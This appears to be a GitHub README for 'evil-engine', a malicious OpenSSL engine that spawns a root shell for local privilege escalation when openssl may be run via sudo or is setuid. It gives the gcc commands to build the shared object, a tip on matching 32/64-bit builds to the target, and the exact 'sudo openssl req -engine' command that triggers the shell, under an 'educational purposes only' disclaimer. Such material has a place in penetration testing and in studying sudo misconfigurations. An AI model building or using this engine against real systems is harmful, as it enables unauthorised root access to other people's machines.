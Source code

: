 # evil-engine
Evil openSSL engine that drops a root shell when openssl can either be executed with sudo or is saved with setuid.
Can be used for local privilege escalation 

In some rare cases, administrators allow a local user to run openssl with root level privileges, this engine allows you get a root shell.

***For educational purposes only***


## Dependencies
openssl header files

**Note**
There could be some version dependencies so make sure you use the same openssl version (engine.h).  
Also make sure to compile for 32 or 64 bit, depending on the openssl version running on the remote system.

To configure openssl for 32 bit on a 64 bit system use:
```
setarch i386 ./config -m32
```

Then use gcc -m32 to compile this evil-engine

## Create the engine

```
# Compile: 
gcc -fPIC -o evil-engine.o -c evil-engine.c
# Create shared object file:
gcc -shared -o evil-engine.so -lcrypto evil-engine.o
```
## Use with openssl
```
sudo openssl req -engine $(pwd)/evil-engine.so
```

## Demo
![](evil-engine.png)